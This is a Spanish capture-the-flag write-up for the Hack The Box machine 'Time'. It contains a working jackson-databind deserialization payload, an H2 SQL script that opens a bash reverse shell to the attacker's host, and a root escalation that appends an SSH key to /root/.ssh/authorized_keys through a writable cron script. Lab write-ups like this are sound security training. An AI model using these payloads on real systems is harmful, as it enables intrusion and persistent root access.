

# Time

Maquina Linux con dos puertos abiertos 22:ssh y 80:http, la página web cuenta con un embellecificador y validador JSON en línea, el cual es vulnerable a un ataque de deserialización, al aprovecharnos de él podemos realizar ejecutar código remoto para ganar acceso al sistema, una vez habiendo enumerado el sistema podemos aprovecharnos de una tarea programada de root.


## Enumeración

Lo primero que hago es realizar un escaneo con nmap para saber los puertos abiertos en el rango del 1-65536.

```text
# nmap -p- --open -n -T5 10.10.10.214 -oG allPorts
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-20 13:49 CST
Nmap scan report for 10.10.10.214
Host is up (0.071s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 25.22 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p- | Escaneo a los 65536 puertos |
| --open | Reporta solo los puertos con estado "open". |
| -T5 | Exploracion a velocidades insanas \(lo hago porque es un entorno de pruebas\). |
| -v | Muestra más información sobre el sondeo que se está realizando. |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts. |

Posteriormente verificamos las versiones de los servicios y haremos uso de scripts por default.

```text
# nmap -sCV -p22,80 10.10.10.214 -oN targeted
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-20 13:51 CST
Nmap scan report for 10.10.10.214
Host is up (0.068s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
| 256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_ 256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds
```

| Bandera | Descripción |
| :--- | :--- |
| -p,22,80 | Escaneo a los puertos 22, y 80 |
| -sC | Escanea con los scripts por defecto. |
| -sV | Intenta determinar la versión del servicio que se ejecuta en el puerto. |
| -oN | Exporta los resultados en un formato nmap. |

Añadimos el virtual host a /etc/hosts.

```text
# echo '10.10.10.214 time.htb' >> /etc/hosts
```

Visitando time.htb/ e interactuando con la página podemos ver que es un embellecedor y un validador de JSON.


Mensaje de error en caso de escribir algo inválido.

```text
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

## Punto de acceso.

Haciendo una búsqueda de las vulnerabilidades, podemos encontrar que se asemeja a lo que necesitamos, FasterXML jackson-databind versión 2.x anterior a 2.9.9.1, podría permitir a los atacantes dirigir una variedad de impactos al aprovechar un fallo al bloquear la deserialización polimórfica de la clase core-logback. Dependiendo del contenido del classpath, la ejecución de código remota puede ser posible.





Ahora que sabemos cuál CVE tiene asignado podemos buscar alguna POC. Utilizaré la siguiente:



Los pasos para ejecutar el exploit son los siguientes:

1 Crear un archivo llamado inject.sql

```text
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
 String[] command = {"bash", "-c", cmd};
 java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
 return s.hasNext() ? s.next() : ""; }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.15.101/8080 0>&1') # en mi caso quiero ejecutar una reverse shell
```

2. Iniciar un servidor con python en el directorio donde guardamos el archivo inject.sql

```text
# python2 -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

3. Nos ponemos en escucha por el puerto que indicamos en el archivo que creamos.

```text
# nc -lvnp 8080
```

4. Ejecutar la carga eligiendo la opción que es vulnerable.

```text
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.15.101:8000/inject.sql'"}]
```


Si todo sale bien debería de aparecer una petición GET, en el servidor y se establecerá la sesión con que iniciamos con netcat.


Como en esta misma carpeta tengo linpeas.sh, proceder a descargarlo, ejecutarlo y analizar resultados. En la sección de archivos interesantes que son escribibles para todos los usuarios, existe un script llamado timer\_backup.sh.



También aparece en archivos .sh


El contenido de script es el siguiente:

```text
# cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

## Escalada de privilegios

El script es sencillo, comprime el contenido de la carpeta /var/www/html con el nombre de website.bak.zip, y lo mueve al directorio /root, por lo tanto podemos deducir que el script es utilizado como tarea programada de root, ya que tiene escritura en /root.


Obteniendo root

Lo que podemos hacer es aprovecharnos de este archivo, para permitir que nuestra máquina se conecte como root al servidor, en el fichero /root/.ssh/authorized\_keys debemos de copiar el contenido de una clave pública generada en nuestra máquina.

1 Generar claves ssh.

```text
# ssh-keygen -b 2048 -t rsa -f $(pwd)/id_rsa -q -N ""
```

2. Descargar la llave pública en el servidor \(previamente debimos haber estado en la carpeta donde se encuentran las claves y levantar un servidor con python\).

```text
# Wget http://10.10.15.101:8000/id_rsa.pub
```

3. Copiamos el contenido de id\_rsa.pub en /root/.ssh/authorized\_keys.

```text
# echo "echo $(cat id_rsa.pub) >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

4. Procedemos a probar la conexión.

```text
# ssh root@10.10.10.214 -i id_rsa
```


